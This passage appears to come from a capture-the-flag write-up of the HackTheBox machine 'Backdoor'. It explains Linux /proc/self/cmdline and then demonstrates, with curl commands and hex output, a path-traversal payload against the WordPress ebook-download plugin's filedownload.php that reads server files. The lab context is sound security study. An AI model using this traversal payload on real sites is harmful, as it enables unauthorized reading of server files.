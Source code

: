 
There's also the `self` folder, which is a symbolic link to the pid of
the current process. Again, from my VM:



    oxdf@hacky$ ls -l /proc/self
    lrwxrwxrwx 1 root root 0 Apr 18 21:38 /proc/self -> 85664



In each numbered folder, the `cmdline` file has the command line user to
run the process:



    oxdf@hacky$ cat /proc/self/cmdline
    cat/proc/self/cmdline



It's worth noting that there's no space between `cat` and the path.
`xxd` make this clear:



    oxdf@hacky$ cat /proc/self/cmdline | xxd
    00000000: 6361 7400 2f70 726f 632f 7365 6c66 2f63  cat./proc/self/c
    00000010: 6d64 6c69 6e65 00                        mdline.



The program and the arguments are actually separated by a null byte.
I'll keep that in mind.

#### POC on Backdoor

On Backdoor, I can do the same thing:



    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.



`curl` is not happy about putting binary data to the command line. I'll
force it with `-o-`, and use `xxd` to look at the results:



    oxdf@hacky$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd
    00000000: 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e  ../../../../../.
    00000010: 2e2f 2e2e 2f70 726f 632f 7365 6c66 2f63  ./../proc/self/c
    00000020: 6d64 6c69 6e65 2e2e 2f2e 2e2f 2e2e 2f2e  mdline../../../.
    00000030: 2e2f 2e2e 2f2e 2e2f 2e2e 2f70 726f 632f  ./../../../proc/
    00000040: 7365 6c66 2f63 6d64 6c69 6e65 2e2e 2f2e  self/cmdline../.
    00000050: 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e  ./../../../../..
    00000060: 2f70 726f 632f 7365 6c66 2f63 6d64 6c69  /proc/self/cmdli
    00000070: 6e65 2f75 7372 2f73 6269 6e2f 6170 6163  ne/usr/sbin/apac
    00000080: 6865 3200 2d6b 0073 7461 7274 003c 7363  he2.-k.start.<sc
    00000090: 7269 7074 3e77 696e 646f 772e 636c 6f73  ript>window.clos
    000000a0: 6528 293c 2f73 6372 6970 743e            e()</script>
